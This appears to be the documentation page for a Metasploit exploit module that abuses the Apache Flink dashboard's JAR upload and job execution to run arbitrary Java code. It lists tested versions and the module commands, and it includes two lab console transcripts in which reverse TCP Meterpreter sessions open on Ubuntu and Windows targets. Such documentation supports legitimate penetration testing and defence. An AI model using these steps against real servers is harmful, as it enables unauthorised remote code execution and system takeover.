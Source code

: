 ## Vulnerable Application

This module uses job functionality in [Apache Flink](https://flink.apache.org)
dashboard web interface to upload and execute a JAR file,
leading to remote execution of arbitrary Java code as the web server user.

This module has been tested successfully on Apache Flink versions:

* 1.9.3 on Ubuntu 18.04.4;
* 1.11.2 on Ubuntu 18.04.4;
* 1.9.3 on Windows 10; and
* 1.11.2 on Windows 10.

## Verification Steps

```sh
wget 'https://archive.apache.org/dist/flink/flink-1.11.2/flink-1.11.2-bin-scala_2.11.tgz'
tar zxvf flink-1.11.2-bin-scala_2.11.tgz
cd flink-1.11.2/
./bin/start-cluster.sh
```

Metasploit:

1. `./msfconsole`
1. `use exploit/multi/http/apache_flink_jar_upload_exec`
1. `set rhosts <rhost>`
1. `run`

## Scenarios

### Apache Flink version 1.9.3 on Ubuntu 18.04.4

```
msf > use exploit/multi/http/apache_flink_jar_upload_exec 
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf exploit(multi/http/apache_flink_jar_upload_exec) > set rhosts 172.16.191.194
rhosts => 172.16.191.194
msf exploit(multi/http/apache_flink_jar_upload_exec) > check
[*] 172.16.191.194:8081 - The target appears to be vulnerable. Apache Flink version 1.9.3.
msf exploit(multi/http/apache_flink_jar_upload_exec) > set lhost 172.16.191.192 
lhost => 172.16.191.192
msf exploit(multi/http/apache_flink_jar_upload_exec) > run

[*] Started reverse TCP handler on 172.16.191.192:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Apache Flink version 1.9.3.
[*] Uploading JAR payload 'bxAGPHOcppvL.jar' (5309 bytes) ...
[*] Retrieving list of available JAR files ...
[+] Found uploaded JAR file 'b4222291-a682-4788-9d43-44ebe5b18426_bxAGPHOcppvL.jar'
[*] Executing JAR payload 'b4222291-a682-4788-9d43-44ebe5b18426_bxAGPHOcppvL.jar' entry class 'metasploit.Payload' ...
[*] Sending stage (58147 bytes) to 172.16.191.194
[*] Meterpreter session 1 opened (172.16.191.192:4444 -> 172.16.191.194:38326) at 2021-02-18 07:19:58 -0500
[*] Removing JAR file 'b4222291-a682-4788-9d43-44ebe5b18426_bxAGPHOcppvL.jar' ...

meterpreter > getuid
Server username: user
meterpreter > sysinfo
Computer    : linux-18-04-04-amd64
OS          : Linux 5.3.0-40-generic (amd64)
Meterpreter : java/linux
meterpreter > 
```

### Apache Flink version 1.11.2 on Windows 10

```
msf > use exploit/multi/http/apache_flink_jar_upload_exec 
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf exploit(multi/http/apache_flink_jar_upload_exec) > set rhosts 172.16.191.193
rhosts => 172.16.191.193
msf exploit(multi/http/apache_flink_jar_upload_exec) > check
[*] 172.16.191.193:8081 - The target appears to be vulnerable. Apache Flink version 1.11.2.
msf exploit(multi/http/apache_flink_jar_upload_exec) > set lhost 172.16.191.192 
lhost => 172.16.191.192
msf exploit(multi/http/apache_flink_jar_upload_exec) > run

[*] Started reverse TCP handler on 172.16.191.192:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Apache Flink version 1.11.2.
[*] Uploading JAR payload 'JhnJgOxev.jar' (5309 bytes) ...
[*] Retrieving list of available JAR files ...
[+] Found uploaded JAR file '67c7fb3f-81a0-4518-a67c-e375ae5f2d03_JhnJgOxev.jar'
[*] Executing JAR payload '67c7fb3f-81a0-4518-a67c-e375ae5f2d03_JhnJgOxev.jar' entry class 'metasploit.Payload' ...
[*] Sending stage (58147 bytes) to 172.16.191.193
[*] Meterpreter session 1 opened (172.16.191.192:4444 -> 172.16.191.193:51105) at 2021-02-18 07:18:02 -0500
[*] Removing JAR file '67c7fb3f-81a0-4518-a67c-e375ae5f2d03_JhnJgOxev.jar' ...
[!] Cleanup failed. Could not remove JAR file '67c7fb3f-81a0-4518-a67c-e375ae5f2d03_JhnJgOxev.jar'

meterpreter > getuid
Server username: User
meterpreter > sysinfo
Computer    : WinDev1710Eval
OS          : Windows 10 10.0 (amd64)
Meterpreter : java/windows
meterpreter > 
```

